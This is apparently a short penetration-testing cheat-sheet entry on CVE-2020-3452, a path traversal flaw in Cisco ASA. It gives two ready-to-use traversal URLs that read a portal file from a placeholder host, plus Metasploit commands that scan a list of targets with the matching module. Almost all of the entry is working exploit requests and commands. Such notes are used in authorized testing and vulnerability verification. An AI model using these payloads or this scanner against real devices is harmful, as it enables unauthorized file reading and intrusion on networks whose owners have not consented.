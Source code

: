 # Cisco

## ASA Path Traversal

**CVE-2020-3452**

Check manually:

```text
https://cisco.example.com/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
https://cisco.example.com/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

Check with MSF:

```text
msf > use auxiliary/scanner/http/cisco_directory_traversal
msf > set RHOSTS file:cisco.txt
msf > run
```

